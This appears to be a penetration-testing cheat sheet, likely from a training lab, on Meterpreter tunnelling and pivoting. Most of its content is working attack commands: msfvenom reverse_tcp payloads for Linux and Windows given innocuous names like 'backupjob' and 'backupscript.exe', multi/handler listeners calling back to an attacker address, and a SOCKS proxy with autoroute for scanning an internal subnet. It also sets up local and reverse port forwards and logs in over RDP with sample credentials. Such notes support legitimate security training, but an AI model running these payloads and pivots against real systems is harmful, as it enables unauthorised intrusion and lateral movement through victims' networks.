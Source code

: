```yaml
---
legal-banner: true
---
```


### **METERPRETER TUNNELING & PORT FORWARDING**

We will cover the essential commands and steps for setting up Meterpreter port forwarding, This guide assumes you have a Meterpreter shell on an Ubuntu server (pivot host) and wish to perform enumeration scans through this host.


### **CREATING PAYLOAD FOR UBUNTU PIVOT HOST**

1.  Generate Payload:  
    `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080`
    
2.  Start multi/handler:
    ```
    msf6 > use exploit/multi/handler
    msf6 exploit(multi/handler) > set lhost 0.0.0.0
    msf6 exploit(multi/handler) > set lport 8080
    msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > run
    ```
    
3.  Copy and Execute Payload on Pivot Host:  
    `chmod +x backupjob $ ./backupjob`
    
4.  Verify Meterpreter Session:  
    `meterpreter > pwd`
    

### **CONFIGURING MSF SOCKS PROXY**

1.  Start SOCKS Proxy:
    
    ```
    msf6 > use auxiliary/server/socks_proxy
    msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
    msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
    msf6 auxiliary(server/socks_proxy) > set version 4a
    msf6 auxiliary(server/socks_proxy) > run
    ```
    
2.  Add Line to proxychains.conf:  
    `socks4 127.0.0.1 9050`
    
3.  Create Routes with AutoRoute:
    
    ```
    msf6 > use post/multi/manage/autoroute
    msf6 post(multi/manage/autoroute) > set SESSION 1
    msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
    msf6 post(multi/manage/autoroute) > run
    ```
    

### **TESTING PROXY & ROUTING FUNCTIONALITY**

1.  Run Nmap Scan:  
    `proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn`
    
2.  Local Port Forwarding:  
    `meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19`
    
3.  Connecting to Target:  
    `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`
    
4.  View Netstat:  
    `netstat -antp`
    

### **REVERSE PORT FORWARDING**

1.  Add Reverse Port Forward:  
    `meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18`
    
2.  Start multi/handler:
    
    ```
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > set LPORT 8081
    msf6 exploit(multi/handler) > set LHOST 0.0.0.0
    msf6 exploit(multi/handler) > run
    ```
    
3.  Generate Windows Payload:  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234`
    
4.  Establish Meterpreter Session:  
    `meterpreter > shell`